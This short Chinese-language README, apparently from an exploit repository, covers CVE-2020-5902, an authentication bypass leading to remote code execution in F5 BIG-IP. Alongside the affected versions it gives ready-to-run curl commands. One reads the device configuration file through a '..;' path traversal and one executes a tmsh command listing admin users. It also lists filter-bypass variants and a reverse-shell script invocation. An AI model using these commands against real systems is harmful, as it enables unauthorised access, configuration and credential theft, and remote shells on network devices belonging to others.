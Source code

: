 ## 漏洞概述

## CVE
CVE-2020-5902

>认证绕过导致远程代码执行漏洞

攻击者可利用该漏洞执行任意的系统命令、创建或删除文件，关闭服务/执行任意的Java代码

## 影响范围

```http
BIG-IP 15.1.0
BIG-IP 14.1.0~14.1.2
BIG-IP 13.1.0~13.1.3
BIG-IP 12.1.0~12.1.5
BIG-IP 11.6.1~11.6.5
```

## EXP

1. 文件读取

```bash
curl -v -k "https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf"
```

2. RCE

```bash
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```

Bypass

```
..;  ==>  /hsqldb; 

..;  ==>  /hsqldb%0a
```

reverse shell:

```
./CVE-2020-5902.sh <server> <localip> <localport>
```